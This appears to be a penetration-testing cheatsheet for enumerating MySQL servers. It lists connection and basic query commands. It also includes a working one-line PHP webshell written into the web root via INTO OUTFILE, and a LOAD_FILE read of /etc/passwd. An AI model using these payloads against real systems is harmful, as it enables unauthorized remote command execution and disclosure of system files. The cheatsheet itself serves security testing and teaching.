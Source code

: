 # MySQL Enumeration Cheatsheet

Enumerating MySQL services (port 3306).

## 1. Connect to MySQL (mysql)
Connect to a MySQL server.
```bash
mysql -u user -p'password' -h target.com
```
- `-u user`: Specify username.
- `-p'password'`: Specify password.
- `-h`: Target host.

## 2. Show MySQL Databases
List all available databases in MySQL.
```sql
SHOW DATABASES;
```

## 3. Select MySQL Database
Switch to a specific database in MySQL.
```sql
USE dbname;
```

## 4. Show MySQL Tables
List tables in the selected database in MySQL.
```sql
SHOW TABLES;
```

## 5. Select MySQL Table Data
Retrieve all entries from a table in MySQL.
```sql
SELECT * FROM users;
```

## 6. Write File in MySQL
Create a file (e.g., webshell) using MySQL (requires FILE privilege).
```sql
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

## 7. Check MySQL File Privileges
Verify if secure_file_priv is empty for file operations.
```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```
- Empty output indicates read/write permissions in MySQL.
## 8. Check MySQL Operating System Version
Identify the operating system version running MySQL.
```sql
SELECT @@version_compile_os;
```
- Example output: `Win64` for Windows-based MySQL.

## 9. Read Local Files in MySQL
Read local files in MySQL (requires FILE privilege).
```sql
SELECT LOAD_FILE('/etc/passwd');
```
